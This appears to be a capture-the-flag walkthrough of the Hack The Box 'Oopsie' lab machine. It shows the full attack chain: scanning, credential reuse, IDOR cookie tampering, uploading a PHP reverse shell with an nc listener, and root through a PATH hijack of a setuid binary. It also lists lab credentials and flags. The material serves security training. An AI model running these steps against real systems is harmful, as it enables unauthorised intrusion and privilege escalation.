










# Oopsie

Starting Point > Oopsie

Introduction to HTB labs and basic machines/challenges. 

# Enumeration

~~~
unknown@kali:/data$ sudo nmap -sS -A 10.10.10.28
[sudo] password for unknown: 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-12 08:38 CEST
Nmap scan report for 10.10.10.28
Host is up (0.035s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=6/12%OT=22%CT=1%CU=40668%PV=Y%DS=2%DC=T%G=Y%TM=5EE3230
OS:4%P=x86_64-pc-linux-gnu)SEQ(SP=FD%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11
OS:NW7%O6=M54DST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(
OS:R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 143/tcp)
HOP RTT      ADDRESS
1   44.15 ms 10.10.14.1
2   44.28 ms 10.10.10.28

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.65 seconds
~~~

Nmap reveals reveals that SSH and Apache are available on their default ports. Let's check out the website.


It seems to be a website for the electric vehicle manufacturer MegaCorp. Scrolling down, we note that a reference is made to logging in.


We can't see anything else of interest, so let's send the request to a web proxy such as Burp, so we can examine the website in more detail. We point the browser to the Burp proxy at `127.0.0.1:8080`, refresh the page, and forward the request.

On the `Target` tab, we notice that Burp has passively spidered the website while processing the request.



The URL `/cdn-cgi/login` seems interesting, let's examine this in the browser.



We confirm that this is a login page. Let's try to reuse the password `MEGACORP_4dm1n!!` from the previously compromised machine, with common usernames such as `administrator` or `admin`.

This is successful (with `admin`), and we gain access to the web portal, which contains additional functionality.


However, it seems the developer has implemented tiers of administration, and the `Uploads` page is further restricted to the super admin user.

Let's examine the portal further in Burp. We refresh on the `Accounts` page, which displays the user id for our current user, and intercept the request. We notice what seems to be a custom cookie implementation, comprising of the user value and role. We also notice the id parameter, which for our current `admin` user is `1`.



It might be possible to brute force the `id` values, and display the `user` value for another user, such as the super admin account. We can do this using Burp's Intruder module. Click `CTRL+I` to send the request to Intruder.



We press `Clear` to remove the pre-populated payload positions, select the Id value (1), and click `Add`. Next, click on the `Payloads` tab.

We can generate a sequential list of 1-100 using a simple bash loop.

```bash
for i in `seq 1 100`; do echo $i; done
```

Paste the output into the Payloads box.


Next, click on the `Options` tab, and ensure that `Follow Redirections` is set to "Always", and select the option to "Process cookies in redirections".



Click on the `Target` tab, and then click `Start attack`. We sort responses by Length, and view the results.



A few of a responses have a different length, and we proceed to examine them. The super admin account is visible, and corresponding user value is identified.



Let's try to access the `Uploads` page again, substituting our user value with the super admins.



# Foothold

This is successful, and we gain access to the upload page, which allows branding images to be uploaded.



It's possible that the developer forgot to implement user input validation, and so we should test if we can upload other files, such as a PHP webshell. On Parrot-OS, we can use the PHP reverse shell `/usr/share/webshells/php/php-reverse-shell.php`.

After changing the IP and port values, we upload the file, capture the request, substitute the user value as before, and click Forward.



Page text reports that the upload was successful, but we don't know where the reverse shell was uploaded to. Let's enumerate the web server for common directories using [dirsearch](https://github.com/maurosoria/dirsearch).

```bash
unknown@kali:/data/tmp$git clone https://github.com/maurosoria/dirsearch.git
unknown@kali:/data/tmp$cd dirsearch
unknown@kali:/data/tmp$ python3 dirsearch.py -u http://10.10.10.28 -e php

 _|. _ _  _  _  _ _|_    v0.3.9
(_||| _) (/_(_|| (_| )

Extensions: php | HTTP method: get | Threads: 10 | Wordlist size: 6046

Error Log: /data/src/dirsearch/logs/errors-20-06-12_10-40-17.log

Target: http://10.10.10.28

[10:40:17] Starting: 
[10:40:18] 403 -  276B  - /.ht_wsr.txt
[10:40:18] 403 -  276B  - /.hta
[10:40:19] 403 -  276B  - /.htaccess-dev
[10:40:19] 403 -  276B  - /.htaccess-local
[10:40:19] 403 -  276B  - /.htaccess-marco
[10:40:19] 403 -  276B  - /.htaccess.BAK
[10:40:19] 403 -  276B  - /.htaccess.bak1
[10:40:19] 403 -  276B  - /.htaccess.old
[10:40:19] 403 -  276B  - /.htaccess.sample
[10:40:19] 403 -  276B  - /.htaccess.txt
[10:40:19] 403 -  276B  - /.htaccess.save
[10:40:19] 403 -  276B  - /.htaccess.orig
[10:40:19] 403 -  276B  - /.htaccess_extra
[10:40:19] 403 -  276B  - /.htaccess_orig
[10:40:19] 403 -  276B  - /.htaccess_sc
[10:40:19] 403 -  276B  - /.htaccessBAK
[10:40:19] 403 -  276B  - /.htaccessOLD
[10:40:19] 403 -  276B  - /.htaccessOLD2
[10:40:19] 403 -  276B  - /.htaccess~
[10:40:19] 403 -  276B  - /.htgroup
[10:40:19] 403 -  276B  - /.htpasswd-old
[10:40:19] 403 -  276B  - /.htpasswd_test
[10:40:19] 403 -  276B  - /.htpasswds
[10:40:19] 403 -  276B  - /.htusers
[10:40:29] 301 -  308B  - /css  ->  http://10.10.10.28/css/
[10:40:32] 301 -  310B  - /fonts  ->  http://10.10.10.28/fonts/
[10:40:33] 301 -  311B  - /images  ->  http://10.10.10.28/images/
[10:40:34] 200 -   11KB - /index.php
[10:40:34] 200 -   11KB - /index.php/login/
[10:40:35] 301 -  307B  - /js  ->  http://10.10.10.28/js/
[10:40:40] 403 -  276B  - /server-status
[10:40:40] 403 -  276B  - /server-status/
[10:40:43] 301 -  311B  - /themes  ->  http://10.10.10.28/themes/
[10:40:44] 301 -  312B  - /uploads  ->  http://10.10.10.28/uploads/
[10:40:44] 403 -  276B  - /uploads/

Task Completed
```

This identified an uploads directory, and we can set up our listener and trigger a reverse shell using curl.

~~~
unknown@kali:/data/tmp$ curl http://10.10.10.28/uploads/shell.php
~~~

We land a shell as www-data and proceed to upgrade it.

~~~
unknown@kali:/data$ rlwrap nc -nlvp 6666
listening on [any] 6666 ...
connect to [10.10.14.195] from (UNKNOWN) [10.10.10.28] 38386
Linux oopsie 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 09:49:57 up 33 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ cat /home/robert/user.txt
f2c74ee8db7983851ab2a96a44eb7981
$ 
~~~

User flag: `f2c74ee8db7983851ab2a96a44eb7981`

Let's stabalize our shell:

~~~
SHELL=/bin/bash script -q /dev/null
Ctrl-Z
stty raw -echo
fg
reset
xterm
~~~

# Lateral Movement

The website records are probably retrieved from a database, so it's a good idea to check for database connection information. Indeed, db.php does contain credentials, and we can su robert to move laterally.

~~~
$ ls /var/www/html/cdn-cgi/login
admin.php
db.php
index.php
script.js
$ cat /var/www/html/cdn-cgi/login/db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
~~~

# Privilege Escalation

The `id` command reveals that `robert` is a member of the `bugracker` group:

~~~
su robert
Password: M3g4C0rpUs3r!

robert@oopsie:/$ id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
~~~

We can enumerate the filesystem to see if this group has any special access.

~~~
robert@oopsie:/$ find / -type f -group bugtracker 2>/dev/null
/usr/bin/bugtracker
robert@oopsie:/$ ls -l /usr/bin/bugtracker 
-rwsr-xr-- 1 root bugtracker 8792 Jan 25 10:14 /usr/bin/bugtracker
robert@oopsie:/$ 
~~~

There is a `bugtracker` binary, and the setuid bit is set. Let's run it and see what it does.

~~~
robert@oopsie:/$ /usr/bin/bugtracker 

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 1
---------------

Binary package hint: ev-engine-lib

Version: 3.3.3-1

Reproduce:
When loading library in firmware it seems to be crashed

What you expected to happen:
Synchronized browsing to be enabled since it is enabled for that site.

What happened instead:
Synchronized browsing is disabled. Even choosing VIEW > SYNCHRONIZED BROWSING from menu does not stay enabled between connects.

robert@oopsie:/$ 
~~~

It seems to output a report based on the ID value provided. Let's use strings to see how it does this.

~~~
robert@oopsie:/$ strings /usr/bin/bugtracker 

[REDACTED]

------------------
: EV Bug Tracker :
------------------
Provide Bug ID: 
---------------
cat /root/reports/

[REDACTED]

~~~

We see that it calls the `cat` binary using this relative path instead of the absolute path. By creating a malicious `cat`, and modifying the path to include the current working directory, we should be able to abuse this misconfiguration, and escalate our privileges to root.

Let's add the current working directory to PATH, create the malicious binary and make it executable.

~~~
robert@oopsie:/$ export PATH=/tmp:$PATH
robert@oopsie:/$ cd /tmp
robert@oopsie:/tmp$ echo '/bin/bash' > cat
robert@oopsie:/tmp$ chmod +x cat
~~~

Let's start the `bugtracker` executable again to get a root shell:

~~~
robert@oopsie:/tmp$ /usr/bin/bugtracker 

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 1
---------------

root@oopsie:/tmp# whoami
root
root@oopsie:/tmp# cat /root/root.txt 
root@oopsie:/tmp# xxd /root/root.txt
00000000: 6166 3133 6230 6265 6536 3966 3861 3837  af13b0bee69f8a87
00000010: 3763 3366 6166 3636 3766 3762 6561 6366  7c3faf667f7beacf
00000020: 0a                                       .
root@oopsie:/tmp# 
~~~

Root flag: `af13b0bee69f8a877c3faf667f7beacf`

# Post Exploitation

Inside root's folder, we see a .config folder, which contains a FileZilla config file with the credentials ftpuser / mc@F1l3ZilL4 visible in plain text.

~~~
root@oopsie:/root/.config/filezilla# more filezilla.xml
more filezilla.xml
<?xml version="1.0" encoding="UTF-8" standalone="yes" ?>
<FileZilla3>
    <RecentServers>
        <Server>
            <Host>10.10.10.44</Host>
            <Port>21</Port>
            <Protocol>0</Protocol>
            <Type>0</Type>
            <User>ftpuser</User>
            <Pass>mc@F1l3ZilL4</Pass>
            <Logontype>1</Logontype>
            <TimezoneOffset>0</TimezoneOffset>
            <PasvMode>MODE_DEFAULT</PasvMode>
            <MaximumMultipleConnections>0</MaximumMultipleConnections>
            <EncodingType>Auto</EncodingType>
            <BypassProxy>0</BypassProxy>
        </Server>
    </RecentServers>
</FileZilla3>
root@oopsie:/root/.config/filezilla# 
~~~
